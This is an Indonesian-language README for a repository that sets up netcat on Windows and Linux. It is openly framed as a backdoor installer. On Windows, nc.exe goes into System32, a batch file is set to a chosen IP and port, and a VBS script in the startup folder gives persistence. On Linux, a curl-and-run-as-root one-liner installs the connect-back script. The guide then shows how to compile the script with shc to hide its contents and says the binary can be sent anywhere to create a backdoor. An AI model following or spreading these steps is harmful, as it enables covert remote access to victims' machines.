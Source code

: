 # NETCAT
all netcat for know os you know

# INSTALASI
## WINDOWS 
1. download file nc-test.bat dalam folder windows,
2. download juga file yang dalam folder windows/startup, juga nc.exe di folder System32
3. nc.exe pindahkan ke folder System32 windows
4. sesuaikan isinya file nc-test.bat baik port maupun ip yang akan di pake
5. sesuaikan juga file run-nc.vbs, sesuaikan path menuju nc-test.bat disimpan
6. tes jalanin nc-test.bat dengan konek si internet, dan ip yang benar
7. jika konek, siap di gunakan

## LINUX
1. download install.sh , kemudian ubah permission `chmod +x install.sh` , kemudian excute menggunkan root, `sudo ./install.sh`.
2. atau `curl -O https://raw.githubusercontent.com/ibnusaja/netcat/main/linux/install.sh && chmod +x ./install.sh && sudo bash ./install.sh`.
3. ikuti perintah yang di berikan (karena kadang disurub ulangi excute instaal.sh). 
4. btw ini wajib ada screen yang terinstall, jika tidak terintsalal, maka install manual, `apt install screen -y`
5. jika sudah muncul **DONE SEMPURNA** pastikan sudah konek dengan netcat server, jika belum coba restart OS linux tersebut, dan lihat kembali
6. **(opsional)** Jika ingin agar file install.sh tidak dapat dilihat isnya, maka bisa dengan download install.sh dulu kemudian `shc -f script.sh` maka akan keluar dua file yang .x dan .c, untuk .x adalah binary yang dapat di excute langsung sedangakan .c adalah yang berubah  menjadi jadi bahasa C.
7. ubah install.sh.x tadi menjadi install.sh atauoun lainnya, dan bisa kirim kemanapun untuk bikin backdoor.
8. sekian
